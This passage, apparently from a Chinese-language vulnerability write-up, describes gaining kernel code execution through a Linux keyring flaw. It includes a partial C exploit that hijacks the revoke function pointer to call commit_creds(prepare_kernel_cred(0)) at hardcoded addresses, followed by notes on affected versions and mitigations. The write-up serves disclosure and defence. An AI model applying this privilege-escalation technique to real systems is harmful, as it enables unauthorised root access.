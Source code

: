 

        **获得内核代码执行权限**

        下列Linux内核代码段将会调用revoke函数。除此之外,我们还可以通过keyctl系统调用来引用Revoke函数指针。



```
void key_revoke(struct key *key)
`{`
       . . .
       if (!test_and_set_bit(KEY_FLAG_REVOKED, &amp;key-&gt;flags) &amp;&amp;
           key-&gt;type-&gt;revoke)
               key-&gt;type-&gt;revoke(key);
       . . .
`}`
```



        keyring对象中应该包含以下信息:



[![](https://p5.ssl.qhimg.com/t0159ad4be497247845.png)](https://p5.ssl.qhimg.com/t0159ad4be497247845.png)



        相关代码段如下:



```
typedef int __attribute__((regparm(3))) (* _commit_creds)(unsigned long cred);
typedef unsigned long __attribute__((regparm(3))) (* _prepare_kernel_cred)(unsigned long cred);
struct key_type_s `{`
    void * [12] padding;
    void * revoke;
`}` type;
_commit_creds commit_creds = 0xffffffff81094250;
_prepare_kernel_cred prepare_kernel_cred = 0xffffffff81094550;
void userspace_revoke(void * key) `{`
    commit_creds(prepare_kernel_cred(0));
`}`
int main(int argc, const char *argv[]) `{`
    ...
    struct key_type * my_key_type = NULL;
    ...
    my_key_type = malloc(sizeof(*my_key_type));
    my_key_type-&gt;revoke = (void*)userspace_revoke;
    ...
`}`
```



        我们在一台配有英特尔酷睿i7-5500 CPU的设备上进行了测试,整个测试过程花费了大约30分钟的时间,我们所得到的信息如下图所示:



[![](https://p4.ssl.qhimg.com/t012db7582269aff806.png)](https://p4.ssl.qhimg.com/t012db7582269aff806.png)



**        漏洞缓解方案&amp;结论**

        内核版本为3.8及其以上的Linux内核都会受到这个漏洞的影响。SMEP和SMAP从某种程度上来说可以给予用户提供一定的保护。也许我们会在之后的文章中讨论如何绕过这些缓解措施,但是现在迫在眉睫的事情就是尽快修复这个漏洞。

        感谢David Howells和Wade Mealing,以及整个红帽安全团队对这个漏洞所付出的努力。
